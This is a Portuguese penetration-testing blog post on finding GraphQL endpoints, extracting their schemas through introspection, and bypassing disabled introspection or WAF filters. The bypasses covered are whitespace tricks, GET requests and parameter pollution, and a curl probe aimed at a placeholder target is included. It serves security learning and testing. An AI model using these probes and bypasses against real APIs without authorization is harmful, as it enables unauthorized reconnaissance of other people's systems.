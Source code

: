 ```yaml
---
layout: post
title:  "Descobrindo e explorando endpoints GraphQL"
date:   2025-04-05 13:30:00
cover: /lab/assets/images/posts/lucassouza.io_graphql_attacks.png
categories: PENTEST
--- 
```


GraphQL tornou-se uma alternativa popular às APIs REST devido à sua flexibilidade e eficiência. Neste guia técnico, exploraremos endpoints comuns, técnicas de introspecção e métodos para contornar controles de segurança.

---
## Endpoints GraphQL Comuns

Ao testar APIs GraphQL, verifique estes endpoints:

- `/graphql`
- `/api`
- `/api/graphql`
- `/graphql/api`
- `/graphql/graphql`

**Dica:**  
Use ferramentas como **Burp Suite**, **curl** ou **Postman** para enviar consultas de teste a esses endpoints. Um simples `POST` com `{"query":"{__typename}"}` pode confirmar se um endpoint está ativo.

```bash
curl -X POST -H "Content-Type: application/json" -d '{"query":"{__typename}"}' http://alvo/graphql
```

---
## Introspection Query: Mapeando o Schema da API

O **introspection** permite que clientes consultem o **schema** de uma API GraphQL — um recurso poderoso tanto para desenvolvedores quanto para atacantes. Veja como utilizá-lo:

### Verificação Básica de Introspecção

```json
{
  "query": "{__schema{queryType{name}}}"
}
```
Uma resposta bem-sucedida confirma que a introspecção está habilitada.

### Extração Completa do Schema

Use esta consulta detalhada para obter o schema completo:

```bash
query IntrospectionQuery {
  __schema {
    queryType { name }
    mutationType { name }
    subscriptionType { name }
    types { ...FullType }
    directives {
      name
      description
      args { ...InputValue }
    }
  }
}

fragment FullType on __Type {
  kind
  name
  description
  fields(includeDeprecated: true) {
    name
    description
    args { ...InputValue }
    type { ...TypeRef }
    isDeprecated
    deprecationReason
  }
  inputFields { ...InputValue }
  interfaces { ...TypeRef }
  enumValues(includeDeprecated: true) {
    name
    description
    isDeprecated
    deprecationReason
  }
  possibleTypes { ...TypeRef }
}

fragment InputValue on __InputValue {
  name
  description
  type { ...TypeRef }
  defaultValue
}

fragment TypeRef on __Type {
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
      }
    }
  }
}
```

**Nota:** Se a consulta falhar, tente remover as diretivas `onOperation`, `onFragment` e `onField`. Muitas implementações as rejeitam por padrão.

---
## Contornando as Proteções de Introspecção

Ao enfrentar introspecção desabilitada ou proteções de WAF, experimente estas técnicas:
### 1. Manipulação de Espaços em Branco

```json
{
  "query": "query{__schema
  {queryType{name}}}"
}
```

O GraphQL ignora espaços em branco, permitindo quebrar proteções baseadas em regex.
### 2. Troca de Método HTTP

Teste requisições GET com consultas codificadas em URL:

```http
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```
### 3. Poluição de Parâmetros

Teste nomes alternativos de parâmetros:

```http
POST /api
Content-Type: application/json

{"q":"{__schema{types{name}}}", "query":"{__typename}"}
```
### 4. Descoberta Assistida por Ferramentas

Se a introspecção estiver desativada, use **[clairvoyance](https://github.com/nikitastupin/clairvoyance)** para reconstruir o schema por meio de mensagens de erro e sugestões de consulta.

---
## Exploração Avançada com Burp Suite

1. Com o endpoint GraphQL identificado **envie a requisição para o Repeater**: 
	- Clique com o botão direito em qualquer requisição GraphQL → **Send to Repeater**.
	
2. **Execute a Introspecção**:
    - No aba repeater, clique com o botão direito na requisição → **GraphQL → Set Introspection Query**.
	
3. **Analise os Resultados**:
    - Clique com o botão direito na resposta → **GraphQL → Save queries to site map**.
    - Visualize o schema reconstruído em **Target → Site Map**.
   
---
## Estudo Complementar:

- https://portswigger.net/web-security/graphql
- https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html
- https://graphql.org/learn/security/
